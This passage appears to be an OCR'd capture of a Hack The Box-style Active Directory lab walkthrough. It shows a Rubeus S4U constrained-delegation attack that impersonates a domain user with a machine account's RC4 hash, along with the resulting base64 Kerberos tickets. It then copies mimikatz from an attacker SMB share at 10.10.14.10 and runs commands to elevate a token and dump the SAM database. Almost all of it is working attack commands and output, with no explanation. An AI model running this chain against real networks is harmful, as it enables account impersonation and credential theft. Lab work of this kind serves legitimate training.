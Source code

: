 ```powershell
PS C:\Users\Administrator\Documents> .\Rubeus.exe s4u /user:attackersystem$ /rc4:32ED87BDB5FDC5E9CBA88547376818D4 /impersonateuser:lee /msdsspn:http/web.htb.local /domain:htb.local /ptt  
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.3

[*] Action: S4U

[*] Using rc4_hmac hash: 32ED87BDB5FDC5E9CBA88547376818D4
[*] Building AS-REQ (w/ preauth) for: 'htb.local\attackersystem$'
[*] Using domain controller: 192.168.3.203:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIE/jCCBPqgAwIBBaEDAgEWooIEFTCCBBFhggQNMIIECaADAgEFoQsbCUhUQi5MT0NBTKIeMBygAwIB
      AqEVMBMbBmtyYnRndBsJaHRiLmxvY2Fso4ID0zCCA8+gAwIBEqEDAgECooIDwQSCA70Gl8JoNiYSvTeP
      t/cTn/Imt8EBaSKCAEbEYCIQz2SaVVD3a2ZRND1hsnX+j28TqBP/F9kcPaW5bW779Yp1HZ9pi3FeoPNw
      ZwgDk8rMpE8KnZe+/eIu7L1ZSKUwHoTThSGBiard3BxQMSw9Z/TOz7WNjXoj2Ew5nyUC7ePoRgq49wzn
      Sp8X1+Qjb/OBoY083fcvwQ5nCUsvsKcXlSZhkiMSu239yCvB/FluCDc9+4kgA6Ki3AbF+q6g38t5ZqnG
      fRzYmSjxx5+ThCx9QDlfS0WAzmQgbE/u3yr92GhXVSa52sB4Ak30U7ol0G3mnBTuV2vgk8kVbn1FNzvl
      yf44/wkYOgUgPLNpuxNBpOHT+uc0O82Hqh3QFM92n33tm1aelSX2YXmhwMI1CXCF6xHfaSpVuBIojT6r
      gaRCgJ0N215klYQI3PmLqtuTNt7NFmbzVfDTX/QoUcQqngHlSP1RA1LAoz20SGrCH+5FhLd2COGtle8/
      a0gMfBDLimBIbzRhe78zl9xxVMQwecstdZrlyGmGMbiCbTl4OF7KLQS/T0BS/XYi/drOa930ZW5fkLkf
      tNo5p2agqG0W+Tn347b02G3JM62J+vZR4n+lopzU4kPAcqBxyj8JzESv4WO1df0JLVCzZou2/nQjvSbb
      /RUy+HuXlhJR6HJAGWwpaPaK9NNlU5lT0edtEOCOzUcT5Gj3+jvS2xMsLbPOtR1lO+0uxDKFqneogA8P
      uGNBTwM/a1NUeHu3J4mltpVCECQshBby/q1quamv28yMsbOuHAPk+jOXvO8FkqjnxpKOXqihpcEqE3zs
      d1ByCN1sW3ea/9TUfwJFJJl7hA+nu1gDeSECSKxW3GEkuEufBIgEix/gyZ4ZtvP471saPqukHVXiCLht
      7Dfibr0PezscZRLynbBrpdRUGpkKP8N65Hs29US7u9kSZIN6KDgGhynlnn2mO2l96ZlctWrBNlezlHf4
      c4qUHEJDw1nAIc8Bw0dXk905TMwSrbtD0eIYqrt29DMoY02xa9WOpUX72d5E/pRSNsTMJKk621oEwjti
      x0f4UWE7l1P4+GY4SFbO3nV7BtqqUtRTZYza4Y/zN+XEmkE8UIjzrkpaFE01N7RHoqg+x5IFToZcoh1r
      fjx5cbP8cGAvT3oOCpg97CE4d4jtI5755BJIiokQBfw5/Hp5PxVorjKqKeIEtdaHiJUxPAgRfEIvoB/q
      UJFXVf80x+QboYtUSu6vSyr3ySQEt1ww4UWpLjHjTnStcVHb+0y7aaHxnys3viejgdQwgdGgAwIBAKKB
      yQSBxn2BwzCBwKCBvTCBujCBt6AbMBmgAwIBF6ESBBAQLlkk2vkz97fQC58UL3+MoQsbCUhUQi5MT0NB
      TKIcMBqgAwIBAaETMBEbD2F0dGFja2Vyc3lzdGVtJKMHAwUAQOEAAKURGA8yMDIzMDQyOTAyNDExMFqm
      ERgPMjAyMzA0MjkxMjQxMTBapxEYDzIwMjMwNTA2MDI0MTEwWqgLGwlIVEIuTE9DQUypHjAcoAMCAQKh
      FTATGwZrcmJ0Z3QbCWh0Yi5sb2NhbA==


[*] Action: S4U

[*] Building S4U2self request for: 'attackersystem$@HTB.LOCAL'
[*] Using domain controller: dc1.htb.local (192.168.3.203)
[*] Sending S4U2self request to 192.168.3.203:88
[+] S4U2self success!
[*] Got a TGS for 'lee' to 'attackersystem$@HTB.LOCAL'
[*] base64(ticket.kirbi):

      doIEpjCCBKKgAwIBBaEDAgEWooIDyzCCA8dhggPDMIIDv6ADAgEFoQsbCUhUQi5MT0NBTKIcMBqgAwIB
      AaETMBEbD2F0dGFja2Vyc3lzdGVtJKOCA4swggOHoAMCARehAwIBAaKCA3kEggN1KW70YRAVBOg2kIsE
      MD8n+CWeqpjfuqbYP2h1dm4dX53vGuXOlC+Q2aKR/UefKRIE3VSm916SJVK/4CYceatJVpbZKWGcB4Bm
      SJLFypDvm+lCTN16eRW/VEcdmRoHPive9jiU6q3eo6QNI/JiwGCxtGViMt/efW3ydD5DdYTa9xh5joKf
      2MOndmp73F5kq0xk47HmwfTmTg/mlLSBhG0/7d/QTefgd5jiRoepXpcdPEJ6HroHvgLugPIG7Q30TNm5
      /trhYkc+7hDccFBupyvAdehcE3JRTYDgbzO5GZUZqsmVtJQEcAQ+8CoYsOdAGUEt9zqQTDG2lKOa1TLk
      AkKwV7wBYbqYiUPop7/QmIkX5/OBKkAp2U6t2+2JH74xoK3WSQt2cvORrWGmljQVhPQ6MyLcMDMUgZ2/
      Bu1MV8Bpj0qEi+6fRc3Ny6y8D1WCngzGjIbBjkarnd8B0GeIVmDL1mq0Q5AULyid06MvosQb34FIUBYU
      o7McPp18zFkFolS/RQNw6XVhLbvHLLYrQCUA6z8TfUKOu3c4yA9ecK3Nqn+wFK1+l0LreliWsBf5FL/Y
      C7NaKWubtRDDyDVRIA7f2CSBLP79b4oWVPntAqpr9CVM4oe4bS+6b9jxwF1SGXUZE0Lqm9+KA08RiH3s
      tDG2WReuKR6n21a/0k10yDYDOf3nciv0M8MZd3GpKjpMByph7lp7VGayy+Fjne2oxHZuC5+uaBuJiQ+m
```

[dev.htb.local]: PS C:\Users\Administrator\Documents> whoami
[dev.htb.local]: PS C:\Users\Administrator\Documents>
[dev.htb.local]: PS C:\Users\Administrator\Documents> cp \\10.10.14.10\kali\mimikatz.exe .
[dev.htb.local]: PS C:\Users\Administrator\Documents> .\mimikatz.exe 'token::elevate' 'lsadump::sam' exit
[dev.htb.local]: PS C:\Users\Administrator\Documents>